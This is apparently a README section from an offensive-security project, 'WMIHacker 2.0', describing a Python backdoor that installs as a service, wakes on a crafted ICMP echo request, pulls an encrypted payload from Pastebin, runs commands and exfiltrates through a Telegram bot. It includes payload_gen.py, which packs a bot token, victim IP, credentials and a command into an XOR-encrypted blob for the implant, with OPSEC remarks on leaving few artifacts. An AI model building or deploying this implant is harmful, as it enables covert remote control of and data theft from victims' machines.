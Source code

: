 - Scenarios involving air-gapped or heavily segmented environments.


## WMIHacker 2.0 

![WMIHACKER](/wmihacker_concept.jpg)

I decided to redesign the original VBS script and implement a backdoor in Python that installs itself as a service on the host system. This backdoor operates asymmetrically and is triggered when a specially crafted ICMP ECHO request is received. Once activated, it retrieves the payload and related instructions from Pastebin, executes the specified command, and extracts a Telegram bot token used for exfiltration.

```
def xorshift_encrypt(data: bytes, key: int) -> bytes:
    result = bytearray()
    state = key & 0xFFFFFFFF 

    for b in data:
        state ^= (state << 13) & 0xFFFFFFFF
        state ^= (state >> 17)
        state ^= (state << 5) & 0xFFFFFFFF
        prng_byte = (state & 0xFF)

        result.append(b ^ prng_byte)

    return bytes(result)

# all these parameters are used in the payload, change for your needs

KEY=0xDEADBEEF 
TOKEN = "BOT TOKEN"
CHAT_ID = "CHAT ID"
IP_ADDR = "VICTIM_IP"
USER = "USERNAME"
PASSWORD = "PASSWORD"
COMMAND = "echo 'YOU HAVE BEEN PWNED!' > C:\\Users\\Administrator\\hello.txt" 


msg = f"{TOKEN}$$$${CHAT_ID}$$$${IP_ADDR}$$$${USER}$$$${PASSWORD}$$$${COMMAND}".encode()

enc = xorshift_encrypt(msg, KEY)

print(enc.hex())
```

This code (`payload_gen.py`) is designed to generate an encrypted payload that contains all the necessary parameters for the backdoor to operate. The payload will be uploaded to Pastebin, and the implant (on the victim machine) will later fetch, decrypt, and execute it on remote host.
Parameters are separated by `$$$$` and scraped on the victim host. Also, no artifacts such as BOT TOKEN or CHAT ID will be placed inside the code. It hardens the OPSEC, and may maintain the fewer artifacts on OS.
